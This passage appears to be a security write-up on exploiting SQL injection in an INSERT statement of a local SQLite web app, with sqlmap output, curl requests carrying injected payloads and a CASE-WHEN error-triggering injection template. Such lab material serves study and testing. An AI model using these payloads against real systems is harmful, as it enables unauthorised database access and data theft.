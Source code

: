 ```bash
[*] starting @ 13:10:17 /2023-08-24/

[13:10:17] [INFO] testing connection to the target URL
[13:10:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:10:17] [INFO] testing if the target URL content is stable
[13:10:18] [INFO] target URL content is stable
[13:10:18] [WARNING] heuristic (basic) test shows that POST parameter 'message' might not be injectable
[13:10:18] [INFO] testing for SQL injection on POST parameter 'message'
[13:10:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:10:18] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[13:10:18] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[...]
[13:10:31] [INFO] POST parameter 'message' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable
[...]
```

## Exploitation strategy

SQL injections in INSERT clause are often error-based but to my knowledge, there is no SQLite function, by default, that allows us to leak raw information through an exception/error.

When we submit a message on the web application, the string “OK” is returned when the message has been successfuly inserted or an exception is raised if an error occured:

```bash
> curl http://127.0.0.1:5000/submitmessage --data "message="
OK%

> curl http://127.0.0.1:5000/submitmessage --data "message='"
unrecognized token: "''')"%
```

Basic blind SQL payloads don’t work here:

```bash
> curl http://127.0.0.1:5000/submitmessage --data "message=aaaa' and 1=1 and 'a'='a"
OK%

> curl http://127.0.0.1:5000/submitmessage --data "message=aaaa' and 1=2 and 'a'='a"
OK%
```

Our approach is to find a SQLite function that triggers one of the following behaviour:

- servers returns the error in the header/body page
- HTTP 500 status code


The core of the injection will look like:

```
' and case when 1=2 then 1 else function_to_find(xxx) end and 'a'='a -> ERROR
```
